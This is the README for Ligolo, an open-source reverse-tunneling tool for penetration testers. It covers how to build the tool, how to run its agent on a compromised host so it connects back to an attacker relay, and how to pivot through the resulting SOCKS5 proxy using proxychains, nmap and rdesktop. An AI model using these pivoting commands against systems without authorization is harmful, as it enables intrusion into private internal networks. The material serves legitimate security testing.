 # Ligolo : Reverse Tunneling made easy for pentesters, by pentesters

[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/gluten-free.svg)](https://forthebadge.com)

![Ligolo](img/ligolo.png)

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
## Table of Contents

- [Introduction](#introduction)
- [Use case](#use-case)
- [Quick Demo](#quick-demo)
- [Performance](#performance)
- [Usage](#usage)
  - [Setup / Compiling](#setup--compiling)
  - [How to use?](#how-to-use)
  - [TL;DR](#tldr)
  - [Options](#options)
- [Features](#features)
- [To Do](#to-do)
- [Licensing](#licensing)
- [Credits](#credits)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## Introduction

**Ligolo** is a *simple* and *lightweight* tool for establishing *SOCKS5* or *TCP* tunnels from a reverse connection in complete safety (TLS certificate with elliptical curve).

It is comparable to *Meterpreter* with *Autoroute + Socks4a*, but more stable and faster.

## Use case

You compromised a Windows / Linux / Mac server during your external audit. This server is located on a LAN network and
you want to establish connections to other machines on this network.

**Ligolo** can setup a tunnel to access internal server's resources.

## Quick Demo

Relay of a RDP connection using Proxychains (WAN).

![RDP](img/rdesktop_example.gif)

## Performance

Here is a screenshot of a speedtest between two 100mb/s hosts (ligolo / localrelay). Performance may vary depending on the system and network configuration.

![Speedtest](img/speedtest.png)

## Usage

### Setup / Compiling

Make sure *Go* is installed and working.

1. Get Ligolo and dependencies

```
cd `go env GOPATH`/src
git clone https://github.com/sysdream/ligolo
cd ligolo
make dep
```

2. Generate self-signed TLS certificates (will be placed in the *certs* folder)

```
make certs TLS_HOST=example.com
```

NOTE: You can also use your own certificates by using the `TLS_CERT` make option when calling *build*. Example: `make build-all TLS_CERT=certs/mycert.pem`.

3. Build

* 3.1. For all architectures

```
make build-all
```

* 3.2. (or) For the current architecture

```
make build
```

### How to use?

*Ligolo* consists of two modules:

- localrelay
- ligolo

*Localrelay* is intended to be launched on the control server (the attacker server).

*Ligolo* is the program to run on the target computer.

For *localrelay*, you can leave the default options. It will listen on every interface on port 5555 and wait for connections from *ligolo* (`-relayserver` parameter).

For *ligolo*, you must specify the IP address of the relay server (or your attack server) using the `-relayserver ip:port` parameter.

You can use the `-h` option for help.

Once the connection has been established between *Ligolo* and *LocalRelay*, a *SOCKS5* proxy will be set up on TCP port `1080` on the relay server (you can change the TCP address/port using the *-localserver* option).

After that, all you have to do is use your favorite tool (Proxychains for example), and explore the client's LAN network.

### TL;DR

On your attack server.

```
./bin/localrelay_linux_amd64
```

On the compromise host.

```
> ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
```

Once the connection is established, set the following parameters on the ProxyChains config file (On the attack server):

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5     127.0.0.1 1080
```

Profit.

```
$ proxychains nmap -sT 10.0.0.0/24 -p 80 -Pn -A
$ proxychains rdesktop 10.0.0.123
```

### Options

*Localrelay* options:

```
Usage of localrelay:
  -certfile string
    	The TLS server certificate (default "certs/server.crt")
  -keyfile string
    	The TLS server key (default "certs/server.key")
  -localserver string
    	The local server address (your proxychains parameter) (default "127.0.0.1:1080")
  -relayserver string
    	The relay server listening address (the connect-back address) (default "0.0.0.0:5555")
```

*Ligolo* options:

```
Usage of ligolo:
  -autorestart
    	Attempt to reconnect in case of an exception
  -relayserver string
    	The relay server (the connect-back address) (default "127.0.0.1:5555")
  -skipverify
    	Skip TLS certificate pinning verification
  -targetserver string
    	The destination server (a RDP client, SSH server, etc.) - when not specified, Ligolo starts a socks5 proxy server
```

## Features

- TLS 1.3 tunnel with TLS pinning
- Multiplatforms (Windows / Linux / Mac / ...)
- Multiplexing (1 TCP connection for all flows)
- SOCKS5 proxy or simple relay

## To Do

- Better timeout handling
- SOCKS5 UDP support
- Implement mTLS

## Licensing

GNU General Public License v3.0 (See LICENSING).

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>

[![Sysdream](img/logo_sysdream.png)](https://sysdream.com)
